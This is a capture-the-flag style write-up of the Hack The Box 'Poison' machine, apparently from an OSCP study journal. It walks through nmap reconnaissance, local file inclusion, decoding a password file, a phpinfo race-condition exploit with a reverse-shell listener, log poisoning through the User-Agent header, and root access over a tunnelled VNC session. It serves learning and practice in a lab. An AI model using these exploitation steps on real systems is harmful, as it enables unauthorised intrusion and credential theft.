

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/poison-medium
---

# ✅ Poison (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** LFI, Misconfigure on phpinfo lead to race condition and RCE.&#x20;

**System Vulnerable:** 10.10.10.84

**Vulnerability Explanation:** The machine is vulnerable to LFI and leak credential file which we could decrypt and have access to the machine.

**Privilege Escalation Vulnerability:** Password Reuse

**Vulnerability Fix:** Proper input validation and Not allow password reuse.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -T4 10.10.10.84 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-08 11:34 EST
Nmap scan report for 10.10.10.84
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Enumeration

### Port 80 Apache httpd 2.4.29

By going through port 80, there is a web page

.png>)

On file **ini.php** and **info.php** we didn't see any interesting information. But on **listfiles.php**, we see other files listed.

.png>)

There is message mention it's encoded at least 13 times.

.png>)

### LFI Exploit

On the webpage, there is a file path. We can test for LFI. Our input will execute inside include().

.png>)

.png>)

## #1 Exploit (SSH)

### Decode 13 times

Let decoded base64 stored on pwdbackup.txt for 13 times and we found out that is password.

```
└─$ data=$(cat pwdbackup.txt); echo $data
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo=

└─$ data=$(cat pwdbackup.txt); for i in {1..13}; do data=$(echo $data | base64 -d); done; echo $data
Charix!2#4%6&8(0
```

SSH to the machine with username we found on LFI vulnerable and password we just got.

```
└─$ ssh charix@10.10.10.84                                                                          
Password for charix@Poison:
Last login: Tue Nov  9 05:54:33 2021 from 10.10.14.31
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To see the output from when your computer started, run dmesg(8).  If it has
been replaced with other messages, look at /var/run/dmesg.boot.
                -- Francisco Reyes <lists@natserv.com>
charix@Poison:~ % 
charix@Poison:~ % whoami
charix
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

## #2 Exploit (phpinfo.php)

The machine is vulnerable to LFI and script display the output on phpinfo().

Proof of concept code: [phpinfolfi.py](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

On the script we need to modify some paths.

```
#1 Modify on payload
PAYLOAD="""%s\r
<php-revershell-script>
\r""" % TAG

#2 Modify LFI Request
LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r

#3 Modify on tmp_name from => to =&gt
```

Let start our netcat listener on port 4444 and run the python script.

```
nc -lvp 4444
```

```
└─$ python phpinfolfi.py 10.10.10.84 80 100
```

.png>)

## #3 Exploit (Log-Poisoning)

Checking the location of the log file.

.png>)

Let insert the location of the log file on the machine. On log, we found out there is user-agent.

.png>)

.png>)

Let change the content of User-Agent and replace with php code and it's display Testing. It mean we can control this.

.png>)

```
10.10.14.31 - - [09/Nov/2021:08:05:40 +0100] "GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1" 200 1318087 "-" "Testing"
```

## Privilege Escalation

Let start copy secret.zip file on home directory of user charix.

```
└─$ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip

└─$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret 
 
 └─$ cat secret                                                                                                                                                                            1 ⨯
��[|Ֆz!

└─$ file secret    
secret: Non-ISO extended-ASCII text, with no line terminators
```

Checking the process running, we found VNC running by root.

```
charix@Poison:~ % ps auxw | grep vn
root    23   0.0  0.0      0    16  -  DL   14:34    0:00.00 [vnlru]
root   529   0.0  0.9  23620  8872 v0- I    14:35    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000
charix 722   0.0  0.0    412   328  1  R+   14:47    0:00.00 grep vn
```

On netstat, we found localhost listening on port 5801 and 5901 which are VNC ports.

```
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.31.55388      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

### Local Port Forwarding

Actually we cannot access directly from our machine. Let start port forwarding.

```
#ssh -L [local-Port]:[Remort-IP]:[Remote-Port]
└─$ ssh -L 5000:127.0.0.1:5801 -L 6000:127.0.0.1:5901 charix@10.10.10.84 
```

Once we log in, we can see the ports were listen on our machine.

```
└─$ netstat -tplun
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      2040/ssh            
tcp        0      0 127.0.0.1:6000          0.0.0.0:*               LISTEN      2040/ssh   
```

### VNC Priv Esc

We can remote to VNC via ssh tunnel. Then, the shell pop up.

```
└─$ vncviewer 127.0.0.1:6000 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding

```

.png>)
